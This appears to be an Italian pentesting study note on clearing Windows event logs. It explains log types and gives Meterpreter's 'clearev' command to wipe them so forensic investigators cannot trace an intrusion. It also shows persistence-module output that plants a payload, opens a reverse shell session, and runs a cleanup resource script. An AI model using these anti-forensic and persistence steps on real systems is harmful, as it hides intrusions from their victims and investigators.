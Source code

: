 
# Clearing Windows Event log
Windwos tiene traccia di qualsiasi azione che viene eseguita dentro al sistema operativo, queste azioni si chiamano Event Log e vengono conservati nel Windows Event Log. <br>
Gli event log si categorizzano in 3 tipi: 
- Application Logs che immagazinano gli eventi riguardanti le applicazioni come gli avii, i crash, ecc.
- System Logs memorizzano tutti gli eventi di sistema come l'avvio, il reboot, lo spegnimento, ecc.
- Security Logs memorizzano tutti gli eventi che riguardano la sicurezza nel sistema come i cambi di Passwords, Autenticazioni fallite, ecc.

Gli Event log possono essere visualizzati con `Event Viewer` su Windows e sono le prime informazioni che gli investigatori forence analizzano per identificare delle potenziali manomissioni di sitema o eventuali intrusioni. Per questo é molto imnportante pulire le tracce lasciatre nei log di sistema durante un penetration testing. <br>

per poter eliminare gli event log su meterpreter
```bash
clearev
```

---
### Usare gli script automatici
quando per esempio usiamo un modulo di persistenza, esso caricherá tati file dentro il sistema target. <br> 
dopo la sua esecuzione, generalmente, viene generato uno script automatico di petasploit per poter automatizzare la rimozione delle tracce:
```bash
# avremo un output del genere
[*] Started reverse TCP handler on IP:PORT 
[*] Running module against ATTACKDEFENSE
[+] Meterpreter service exe written to C:\Users\ADMINI~1\AppData\Local\Temp\cZjWgLB.exe                                      # questo é il payload
[*] Creating service dxfcJWAI
[*] Cleanup Meterpreter RC File: /root/.msf4/logs/persistence/ATTACKDEFENSE_20250719.4239/ATTACKDEFENSE_20250719.4239.rc     # questo é il file di pulizia 
[*] Sending stage (176198 bytes) to IP
[*] Meterpreter session 2 opened (IP:PORT -> IPK:PORTK)
```
e da dentro meterpreter, possiamo usare il commando: 
```bash
resource /path/del/file/di/pulizia.rc
```
per poter automatizzare la rimozione dei file inseriti sul target. 
